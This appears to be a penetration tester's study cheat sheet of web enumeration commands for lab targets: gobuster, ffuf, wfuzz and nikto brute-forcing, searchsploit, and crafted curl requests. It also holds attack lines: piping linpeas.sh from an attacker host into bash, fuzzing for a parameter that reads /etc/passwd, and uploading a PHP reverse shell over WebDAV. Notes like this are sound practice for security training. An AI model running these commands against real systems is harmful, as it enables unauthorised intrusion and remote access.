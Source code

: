 ```
echo -ne "GET / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n"
```

![](Pasted%20image%2020230923182239.png)

```
GET / HTTP/1.1\r\n
Host: google.com\r\n
Connection: close\r\n\r\n
```

```
\r (carriage return or 0x0d)
\n (new line or 0x0a)
```

```
nikto -h url
```

dirbuster
gobuster
feroxbuster

```
searchsploit mod ssl 2
```

```
dirb url
```

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'url/FUZZ' -k
```

```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t
5
```

```
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

```
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w
/usr/share/wordlists/dirb/small.txt
```

```
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config
```

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt --url http://academy.htb/ -x .php, .txt -o gobuster-result.txt
```

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -u http://academy.htb -o gobuster-dir-root.log
```

```
gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt | tee enum/gobuster-dir-p80.log
```

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://academy.htb -o gobuster-vhost-sub.txt
```

```
grep \.git /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

![](Pasted%20image%2020231014122728.png)

```
curl -v 'url' -X POST --data '<key><value>>please</value></key>\n' -H 'Content-Type:application/xml'
```

```
curl -v 'url' -X POST --data '{"key": "please"}' -H 'Content-Type:application/json' --trace-ascii -
```

```
curl -v 'url' -X POST --data 'key: please' -H 'Content-Type:application/yaml' --trace-ascii -
```

```
curl attackerIP:8000/linpeas.sh | bash
```

```
python3 -m http.server
```

https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

### Directory & Files Bruteforce

*Filter by whitelisting codes*

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200,202,204,301,302,307,403 http://example.com/uploads/FUZZ
```

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://vulnerable.site/FUZZ
```

```
cadaver http://ip/directory/

put /var/www/html/php-reverse-shell.php
```

```
gobuster dns -d artcorp.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -q -r 8.8.8.8 -t 4 --delay 1s -o subdomains.txt
```
